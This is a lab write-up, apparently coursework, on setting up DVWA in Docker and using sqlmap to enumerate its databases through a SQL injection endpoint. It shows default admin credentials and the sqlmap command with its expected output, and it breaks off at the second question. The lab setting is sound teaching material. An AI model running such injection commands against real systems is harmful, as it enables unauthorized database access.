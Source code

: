# Task 2: Attack on Database of DVWA
## Installation Steps
Set Up DVWA Using Docker:
Pull the DVWA Docker image:
```bash
docker pull vulnerables/web-dvwa
```
Run the DVWA container:
```bash
docker run -d -p 80:80 vulnerables/web-dvwa
```
Visit http://localhost in your web browser and follow the setup instructions. Set up the database by navigating to the “Setup” page and clicking on the “Create / Reset Database” button.

## Login to DVWA:
Use the default credentials:  
- Username: admin
- Password: password
After logging in, ensure that the security level is set to "Low" in the DVWA security settings to facilitate testing.
![image](https://github.com/user-attachments/assets/eb415191-d65b-4688-9cd4-5e2cfe82c933)

## Install sqlmap:

Install sqlmap (if you don't have it yet):
```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
```
## Question 1: Use sqlmap to get information about all available databases

## Answer 1:
Identify a vulnerable parameter: Navigate to a page in DVWA that has a SQL injection vulnerability (e.g., the "SQL Injection" section).
Capture the request: Use a tool like Burp Suite or simply check the URL parameters in your browser.  
### Run sqlmap:

```bash
python sqlmap/sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs
```
![image](https://github.com/user-attachments/assets/a93aea8d-dad0-4ce0-8135-806253bd36d8)

Expected Output: sqlmap will output a list of databases available in the DVWA:

```makefile
Database: dvwa
Database: information_schema
```
## Question 2: Use sqlmap to get tables, users information
## Answer 2:
